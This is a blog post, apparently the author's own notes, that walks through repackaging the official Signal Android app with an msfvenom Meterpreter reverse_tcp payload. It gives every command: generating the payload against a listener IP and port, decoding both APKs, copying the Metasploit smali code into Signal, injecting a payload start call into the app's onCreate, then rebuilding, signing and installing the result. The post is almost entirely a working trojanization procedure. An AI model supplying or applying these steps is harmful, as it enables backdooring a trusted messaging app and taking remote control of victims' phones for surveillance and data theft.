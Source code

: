 ```yaml
---
layout: post
title: Msfvenom Android APK
---
```


This post is just going to cover the unpackaging and recreating of official Android apps with Msfvenom payloads. I made this 
mainly as future notes for myself, but maybe this can help you too. Also, because the documentation that I was working from 
is now outdated.

Install the following apps:

	sudo apt install apktool apksigner adb zipalign keytool

Assuming you have msfvenom/metasploit installed, create the malicious APK:

	msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 R > meterpreter.apk

The options are pretty straightforward. The listener is TCP based versus the other HTTP or HTTPS options. And, the listener 
IP address to connect back is at 192.168.1.1 and the port is 4444. Once the APK is built, we can unpackage it.

	apktool decode -o meterpreter meterpreter.apk

	( -o <name> is the name of the folder where everything will be decoded to )
	( and, the apk is the target that will be decoded )

Do this for the meterpreter.apk as well as the official app that you want to repackage:

	apktool decode -o signal signal.apk

Copy the contents of the meterpreter smali folder to the official app:

	cp -r meterpreter/smali/com/metasploit signal/smali/com/.

	( this file structure is Android 11 specific )
	( against a Pixel 6 using arm64-v8a )

Next, we need to identify the beginning of the official APK. We need to find the <activity ... > that is used when the app 
is first launched. When comparing against Signal version 6.1.3, this should be the following file:

	nano signal/smali/org/thoughtcrime/securesms/ApplicationContext.smali

	( search for the following lines "onCreate()V" or "onCreate(Landroid...)V"

	( paste the following below ".line 131", as an example, verify for your own APK where to place )

	invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

Build the app into an APK and zipalign it:

	apktool build signal/ --use-aapt2

	zipalign -f -p 4 signal/dist/<CREATED_APK>.apk signal/dist/<OUTPUT_ALIGNED_APK>.apk

	( where the created apk is the one we just built, and the output aligned apk is the aligned version )

Let's generate the key used after rebuilding the APK:

	keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000

And, we can now sign the newly created and aligned APK:

	apksigner sign --ks key.keystore --ks-pass pass:password signal/dist/<OUTPUT_ALIGNED_APK>.apk

This should properly keep the APK aligned and now signed as well. The last thing to do is pair your Android device and 
authenticate the ADB connection. The app can then be pushed with the following command:

	adb install signal/dist/<OUTPUT_ALIGNED_APK>.apk

Start the metasploit listener on the host. Once it is ready, launch the app from the compromised device and it should 
connect immediately. If there are delays or issues getting the device to spawn a msf session, check your routing from the 
compromised device.

Extra Sources:

- [How to exploit any android device using msfvenom and Metasploit 
Framework](https://archanatulsiyani21.medium.com/how-to-exploit-any-android-device-using-msfvenom-and-metasploit-framework-9e90af4a4d7b)

- [Embedding Meterpreter in Android APK](https://www.blackhillsinfosec.com/embedding-meterpreter-in-android-apk/)
